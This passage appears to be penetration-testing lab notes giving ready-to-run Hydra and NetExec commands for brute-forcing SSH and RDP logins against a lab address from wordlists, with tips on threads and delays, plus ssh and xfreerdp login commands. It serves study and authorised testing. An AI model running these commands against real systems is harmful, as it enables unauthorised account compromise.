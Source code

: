 ### NetExec SSH Attack
```bash
# Basic attack
netexec ssh 10.129.42.197 -u user.list -p password.list

# Continue on success
netexec ssh 10.129.42.197 -u user.list -p password.list --continue-on-success
```

### SSH Connection
```bash
# Connect with password
ssh user@10.129.42.197

# Connect with key
ssh -i id_rsa user@10.129.42.197

# Connect to specific port
ssh -p 2222 user@10.129.42.197
```

## RDP (Remote Desktop Protocol)

### Hydra RDP Attack
```bash
# Basic brute force
hydra -L user.list -P password.list rdp://10.129.42.197

# Reduce threads (RDP doesn't like many connections)
hydra -L user.list -P password.list -t 1 rdp://10.129.42.197

# Add delays between attempts
hydra -L user.list -P password.list -t 4 -W 3 rdp://10.129.42.197
```

### NetExec RDP Attack
```bash
# Basic attack
netexec rdp 10.129.42.197 -u user.list -p password.list

# Check if account is active for RDP
netexec rdp 10.129.42.197 -u user -p password
```

### RDP Connection
```bash
# xfreerdp connection
xfreerdp /v:10.129.42.197 /u:user /p:password

# Full screen
xfreerdp /v:10.129.42.197 /u:user /p:password /f

# Specify resolution
xfreerdp /v:10.129.42.197 /u:user /p:password /w:1920 /h:1080

# Enable clipboard
xfreerdp /v:10.129.42.197 /u:user /p:password +clipboard
```
